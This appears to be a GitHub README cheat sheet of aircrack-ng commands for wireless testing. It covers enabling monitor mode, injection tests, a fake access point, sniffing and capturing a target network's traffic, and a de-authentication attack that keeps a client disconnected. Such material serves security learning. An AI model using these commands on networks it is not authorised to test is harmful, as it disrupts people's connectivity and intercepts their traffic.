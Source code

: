 # <p style="text-align:center">Ethical Hacking Cheat Sheet </p>
---
<details>
    <summary> Basic Information</summary>
These commands are works only on linux based OS system
An external Network Adapter is required, Your Network Adapter must support
<span style="color: orange">Monitor Mode, packet injection mode </span> Here my network interface name is <span style="color: orange">wlan1</span>, use these commands

```sh
iwconfig 
```
 or 
 ```
 ifconfig
 ```
check your network interface name, your network interface name may be diffrent use accordingly.

First you need to switch root user

```
sudo su
```
</details>

# Table of Content
- [Network Manager Commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-manager-commands)
- [Network Adapter testing commands](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#network-adapter-testing-commands)
- [Packet Sniffing](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#packet-sniffing)
- [DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical_Hacking?tab=readme-ov-file#de-authentication-attack)

---
## Network Manager Commands
### kill network manager
```
airmon-ng check kill
```
### Enable Network Manager
```
service NetworkManager start
```
### Restart Network Manager
```
systemctl restart NetworkManager
```
### Check Status of Network Manager
```
systemctl status NetworkManager
```
---
## Network Adapter Testing Commands
### Enable Monitor Mode
```
airmon-ng start wlan1
```
### Disable Monitor Mode
```
airmon-ng stop wlan1
```
### Packet Injection test
```
aireplay-ng --test wlan1
```
### Creating Access Point Test
you can put any fake MAC Address like this `00:01:02:03:04:05`
```
airbase-ng -a 00:01:02:03:04:05 --essid "test_01" -c 11 wlan1
```
---
## Packet Sniffing
### sniff network around us `2.4 GHz`
```
airodump-ng wlan1
```
### sniff network Both `2.4 GHz and 5 GHz`
```
airodump-ng --band a wlan1
```
### capture data both `2.4 GHz and 5 GHz`
```
airodump-ng --band abg wlan1
```
### capture data in a file `test`
```
airodump-ng --bssid @1 --channel @2 --write test wlan1
```
@1 → `BSSID` of target

@2 → Channel no. of target

### open wireshark application to read captured data, captured in `fileName.cap`, 
```
wireshark
```
---
## DE-Authentication Attack
```
aireplay-ng --deauth @1 -a @2 -c @3 wlan1
```
@1 → no. of packets you want to send 

@2 → BSSID of router

@3 → MAC Address of the Client
<details>
    <summary>know more abot it</summary>
we're doing --deauth to tell
aireplay-ng that I want to run a de-authentication attack,
I'm givin' it a really large number of packets, so that it
keeps sending the de-authentication packets
to both the router and the client, and keep the client
disconnected, I'm using -a to specify the MAC address of the
target router, or the target access point, then I'm using -c
to specify the MAC address of the client.
</details>
&nbsp;

if it`s fails then, ot target specific router
```
airodump-ng --bssid @1 --channel @2 wlan1
```
@1 → BSSID of target

@2 → Channel number
